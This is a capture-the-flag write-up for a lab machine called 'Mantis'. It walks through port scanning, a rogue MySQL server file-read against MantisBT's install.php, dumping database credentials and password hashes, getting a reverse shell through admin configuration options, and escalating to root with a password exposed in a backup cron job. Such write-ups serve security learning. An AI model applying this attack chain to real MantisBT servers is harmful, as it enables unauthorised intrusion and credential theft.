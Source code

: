 # Mantis

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.201.204
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-08 15:54 +08
Nmap scan report for 192.168.201.204
Host is up (0.17s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
3306/tcp open  mysql
```

I did a detailed scan on these ports:

```
$ sudo nmap -p 80,3306 -sC -sV --min-rate 4000 192.168.201.204     
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-08 15:56 +08
Nmap scan report for 192.168.201.204
Host is up (0.18s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Slick - Bootstrap 4 Template
3306/tcp open  mysql   MySQL 5.5.5-10.3.34-MariaDB-0ubuntu0.20.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.34-MariaDB-0ubuntu0.20.04.1
|   Thread ID: 37
|   Capabilities flags: 63486
|   Some Capabilities: IgnoreSigpipes, Speaks41ProtocolOld, SupportsTransactions, DontAllowDatabaseTableColumn, Support41Auth, LongColumnFlag, FoundRows, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, InteractiveClient, Speaks41ProtocolNew, SupportsLoadDataLocal, ODBCClient, SupportsCompression, SupportsMultipleResults, SupportsAuthPlugins, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: E!sB/b!zhxE.VGAOJd;9
|_  Auth Plugin Name: mysql_native_password
```

### Web Enumeration

Port 80 hosted a static page:

<figure><img src="../../../.gitbook/assets/image (509).png" alt=""><figcaption></figcaption></figure>

I ran a `gobuster` on this website, and it did find a few directories of interest:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.201.204/ -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.201.204/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/08 15:57:35 Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 316] [--> http://192.168.201.204/css/]
/js                   (Status: 301) [Size: 315] [--> http://192.168.201.204/js/]
/fonts                (Status: 301) [Size: 318] [--> http://192.168.201.204/fonts/]
/bugtracker           (Status: 301) [Size: 323] [--> http://192.168.201.204/bugtracker/]
```

`/bugtracker` looks interesting. It brought me to a login page stating that the admin directory is a security risk.&#x20;

<figure><img src="../../../.gitbook/assets/image (336).png" alt=""><figcaption></figcaption></figure>

I tried to access the `/admin` panel but it didn't work. I took a look at the Github repository for this software and tried to access the other files within the admin panel, which worked:

{% embed url="https://github.com/mantisbt/mantisbt" %}

<figure><img src="../../../.gitbook/assets/image (395).png" alt=""><figcaption></figcaption></figure>

At the bottom of the page, there are options to Upgrade the SQL database:

<figure><img src="../../../.gitbook/assets/image (333).png" alt=""><figcaption></figcaption></figure>

If we just click on the Install button without filling in any details, we are brought to another page:

<figure><img src="../../../.gitbook/assets/image (539).png" alt=""><figcaption></figcaption></figure>

There's a configuration file mentioned at the bottom of the page, and it also shows that the web page is able to interact with the SQL instance.&#x20;

### Rogue MySQL LFI --> MySQL Creds

I did a lot more reading about `install.php` and the other components related to SQL (because SQL is publicly facing for some reason) of the admin panel and came across this CVE:

{% embed url="https://mantisbt.org/bugs/view.php?id=23173" %}

This involves using a Rogue SQL server to exploit an LFI:

{% embed url="https://github.com/allyshka/Rogue-MySql-Server/blob/master/roguemysql.php" %}

We just have to visit `install.php?install=3&hostname=192.168.45.191` to run it, and it works!

<figure><img src="../../../.gitbook/assets/image (157).png" alt=""><figcaption></figcaption></figure>

We can use this to read the `config_inc.php` file mentioned earlier:

```
$ php sql.php
Enter filename to get [/etc/passwd] > /var/www/html/bugtracker/config/config_inc.php
[.] Waiting for connection on 0.0.0.0:3306
[+] Connection from 192.168.201.204:47156 - greet... auth ok... some shit ok... want file... 
[+] /var/www/html/bugtracker/config/config_inc.php from 192.168.201.204:47156:
<?php
$g_hostname               = 'localhost';
$g_db_type                = 'mysqli';
$g_database_name          = 'bugtracker';
$g_db_username            = 'root';
$g_db_password            = 'SuperSequelPassword';

$g_default_timezone       = 'UTC';

$g_crypto_master_salt     = 'OYAxsrYFCI+xsFw3FNKSoBDoJX4OG5aLrp7rVmOCFjU=';
```

This grants us the MySQL creds, which we can use to login:

<figure><img src="../../../.gitbook/assets/image (626).png" alt=""><figcaption></figcaption></figure>

### Bugtracker Creds --> RCE

With access to the database, we can view the password of the administrator of the MantisBT instance.&#x20;

```
MariaDB [bugtracker]> select * from mantis_user_table;
+----+---------------+----------+-------------------+----------------------------------+---------+-----------+--------------+-------------+-----------------------------+--------------------+------------------------------------------------------------------+------------+--------------+
| id | username      | realname | email             | password                         | enabled | protected | access_level | login_count | lost_password_request_count | failed_login_count | cookie_string                                                    | last_visit | date_created |
+----+---------------+----------+-------------------+----------------------------------+---------+-----------+--------------+-------------+-----------------------------+--------------------+------------------------------------------------------------------+------------+--------------+
|  1 | administrator |          | root@localhost    | c7870d0b102cfb2f4916ff04e47b5c6f |       1 |         0 |           90 |           5 |                           0 |                  0 | Tgl-0N5B643JKwIwNgD9s5dKRU_gdBsXawwO7p3ZaGM2ZI4gckyB84AmBRq-IFA7 | 1651296959 |   1651292492 |
|  2 | test123       |          | test123@gmail.com | 3a85acb13b850e7b8e2b53331becc726 |       1 |         0 |           25 |           0 |                           0 |                  1 | TORSv6oU4EXOyA4cqXXgBod5RJ3vY445ArdZ9uS795NfqWdsKib7OMQGfiMOUAbp | 1688803375 |   1688803375 |
+----+---------------+----------+-------------------+----------------------------------+---------+-----------+--------------+-------------+-----------------------------+--------------------+------------------------------------------------------------------+------------+--------------+
```

This hash can be cracked on CrackStation:

<figure><img src="../../../.gitbook/assets/image (151).png" alt=""><figcaption></figcaption></figure>

Now, there are RCE exploits for this, but the one from `searchsploit` also abuses another exploit to do with password resetting for the administrator user.

First of all, that doesn't seem to work for this machine, and secondly, we already have the administrator password. In this case, I manually exploited the machine while using the PoC as a guideline.&#x20;

We can first login as the administrator:

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Then, head to `/bugtracker/adm_config_report.php` and create the following Configuration Options:

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Then, just visit `/bugtracker/workflow_graph_img.php`, and we will receive a reverse shell:

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Pspy Mantis Creds --> Root

We can grab the user flag from the user `mantis`. Afterwards, we can find some interesting files within their home directory:

```
www-data@mantis:/home/mantis/db_backups$ ls -la
total 52
drwxr-xr-x 2 mantis mantis  4096 Jan 30 16:15 .
drwxr-xr-x 3 mantis mantis  4096 May 17  2022 ..
-rw-rw-r-- 1 mantis mantis 37130 Jul  8 08:44 1652766150.sql
-rwx------ 1 mantis mantis   104 May 17  2022 backup.sh
```

The file was recently edited, so I ran `pspy64` on the machine to see what `backup.sh` was doing.

```
2023/07/08 08:46:01 CMD: UID=1000 PID=5746   | /bin/sh -c bash /home/mantis/db_backups/backup.sh                                                                                          
2023/07/08 08:46:01 CMD: UID=1000 PID=5745   | /bin/sh -c bash /home/mantis/db_backups/backup.sh                                                                                          
2023/07/08 08:46:01 CMD: UID=1000 PID=5747   | mysqldump -u bugtracker -pBugTracker007 bugtracker
```

There was a password present. Using that, we can `su` to `mantis`, who can run `sudo` on everything without a password.

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Rooted!
